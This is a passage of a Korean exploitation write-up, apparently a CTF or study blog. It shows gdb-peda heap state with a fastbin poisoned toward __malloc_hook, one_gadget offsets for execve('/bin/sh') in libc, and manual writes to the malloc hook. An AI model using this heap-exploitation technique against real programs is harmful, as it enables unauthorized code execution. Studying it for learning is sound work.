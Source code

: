 `Malloc()`의 중간에 `pause()`를 걸고, 위의 코드까지 실행했을 때 bin의 상태를 살펴보자.

```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7fc114c3faed (size error (0x78)) --> 0xc114900e20000000 (invaild memory)
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0xe140e0 (size : 0x20f20) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

`size error (0x78)`는 무시해도 된다. 문제없이 할당된다. 이제 malloc hook에 one gadget의 주소를 넣어 주기만 하면 된다.

---

사용할 one gadget을 찾아보자.

```bash
chykor12@ubuntu:~$ one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

디버깅해서 조건이 맞는 one gadget을 확인해보자.

```bash
gdb-peda$ x/4gx 0x7ffff7dd1b10
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
gdb-peda$ set {int}0x7ffff7dd1b10=256
gdb-peda$ x/4gx 0x7ffff7dd1b10
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000100	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```
